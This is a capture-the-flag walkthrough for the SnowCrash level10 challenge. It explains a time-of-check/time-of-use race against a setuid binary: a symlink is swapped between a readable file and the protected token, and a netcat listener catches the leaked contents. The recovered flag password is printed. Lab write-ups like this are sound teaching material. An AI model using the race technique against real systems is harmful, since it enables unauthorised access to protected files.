 ## 1. Connect to level10:

```bash
level09@SnowCrash:~$ su level10
password: *use previously found flag*
```

## 2. See existing files:

```bash
level10@SnowCrash:~$ ls -l
    total 16
    -rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
    -rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

## 3. Test out the `level10` program:

```bash
level10@SnowCrash:~$ ./level10
	./level10 file host
		sends file to host if you have access to it

level10@SnowCrash:~$ ./level10 token localhost
	You don't have access to token

level10@SnowCrash:~$ ./level10 .profile localhost
	Connecting to localhost:6969 .. Unable to connect to host localhost
```

## 4. Create a script that will open the token file

```bash
level10@SnowCrash:~$ cd /tmp
level10@SnowCrash:~$ touch race.sh
```

*See level10/Ressources/race.sh*

The script creates 2 files for which we have the rights to read:
    - a `random file`
    - a `link file`

First, the script runs the `level10` binary in an infinite loop, redirecting its output to `/dev/null`.

Then, it alterns the link to the `random file` and the `token` file in an infinite loop.

*If we download the `level10` binary file and look at its main, we can find the access() function used to open the files. This function is known to take a certain time to 1/ check the rights on the file, 2/ open the file if rights allow it (see `man access`).
Our script is going to take advantage of the small window between those 2 steps to try to open the `token` file and use the `random file`s reading rights.*


## 5. Run the script:

```bash
level10@SnowCrash:~$ chmod +x /tmp/race.sh
level10@SnowCrash:~$ /tmp/race.sh
```

## 6. On another terminal, run the race condition:
```bash
while true;  do nc -l 6969 | grep -v '.*( )*.' ; done
```

This will make the content of the files appear on the terminal as long as the loops are running. It will also remove all appearance of '.*( )*.' that pollute the terminal.
You should obtain your password !

## 7. Login into *`flag10`* user account with obtained password:
```bash
level10@SnowCrash:~$ su flag10
password: woupa2yuojeeaaed06riuj63c
```

## 8. Use `getflag` command to get flag for level11:

```bash
flag10@SnowCrash:~$ getflag
```